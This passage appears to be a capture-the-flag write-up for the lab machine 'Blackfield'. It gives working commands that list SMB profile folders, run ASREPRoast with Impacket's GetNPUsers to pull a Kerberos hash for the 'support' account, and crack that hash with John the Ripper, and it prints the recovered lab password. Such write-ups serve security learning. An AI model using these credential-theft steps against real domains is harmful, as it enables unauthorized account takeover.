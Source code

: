 Those folders look like people's profile, but there are three folders not
starting with an uppercase letter that doesn't look like a name.

- audit2020
- support
- svc_backup

We can save all profiles to a file:

```sh
$ printf %s 'dir' | smbclient //10.10.10.192/profiles$ '' | sed '1,3d;$d' | cut -d ' ' -f 3 -s > profiles.txt
```

As we know from [nmap][nmap] that the is Kerberos running, let's try ASREPRoast.

> The ASREPRoast attack looks for users without Kerberos pre-authentication
> required attribute (DONT_REQ_PREAUTH).

Ref. [HackTricks - ASREPRoast](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast#asreproast)

Then Impacket script `GetNPUsers` allow to check if Kerberos pre-auth
is enabled for those accounts and extract their password hash:

```
$ GetNPUsers.py blackfield.local/ -usersfile profiles.txt -outputfile hash.txt -dc-ip 10.10.10.192 -format john
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
...
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
...
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
...
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Only *support* had is hash extracted.

```
$ cat hash.txt
$krb5asrep$support@BLACKFIELD.LOCAL:149b486205f9a8d069335550278e2933$0bfbb61c0a3af8cce3d8cd7f6584f411d9a5ac4053cdd802feadb914de2f9e5efe5f636a4ab76cca735f40754868ec140c6ed0d76ce0fc11891e17f518c5611ad1fb2e0d718f5d48a8c84fb0065e430755c9e6ee533ae52a7294b4b1132d20efc948369602dad416f819d48b0f9845268567c91ee02945d237f188162ebf0f43c7bc279ba887abf229f70319b8204ce4266d1bc98f0ce93bf28f72c1b517ab04f24db30e447085dbc156b8e5a2d8c06885e79c851b928d11975cef973a27f36169183ec240fcaca260996113052274be45c7332b202663a43516a08295f7bc25dabf07f3d86153167190e511be5d16a6cdd1ae94
```

Now we can crack it with [John the Ripper][JtR]:

```
$ john hash.txt -w=/usr/share/wordlists/passwords/rockyou.txt --format=krb5asrep-aes-opencl
$ john hash.txt --show
$krb5asrep$support@BLACKFIELD.LOCAL:#00^BlackKnight

1 password hash cracked, 0 left
```

